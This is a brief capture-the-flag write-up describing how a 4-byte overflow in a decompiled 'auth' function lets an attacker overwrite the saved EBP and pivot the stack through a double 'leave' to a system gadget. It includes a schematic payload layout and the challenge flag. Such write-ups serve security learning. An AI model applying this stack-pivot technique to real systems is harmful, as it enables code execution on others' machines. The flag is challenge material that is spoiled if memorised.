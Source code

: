 ### Summary
Basically, it's a challenge about buffer overflow, but you can only overwrite the EBP.
We can make EBP point to our input, which enables us to set the return address of the caller of the vulnerable function.

### Payload
```
aaaaa  // will get popped by 2nd leave
<system_gadget>
<pointer to aaaa>  // Overflow on EBP
```

1st leave: pops pointer to EBP register

2nd leave: pops aaaa to ebp, return address will be `<system_gadget>`



### Vulnerable code

```C
_BOOL4 __cdecl auth(int a1)
{
  char v2; // [esp+14h] [ebp-14h]
  char *s2; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h]

  memcpy(&v4, &input, a1); //a1 can be at most 12, overflow of 4
  s2 = (char *)calc_md5((int)&v2, 12);
  printf("hash : %s\n", s2);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
}
```

### Flag
`control EBP, control ESP, control EIP, control the world~`
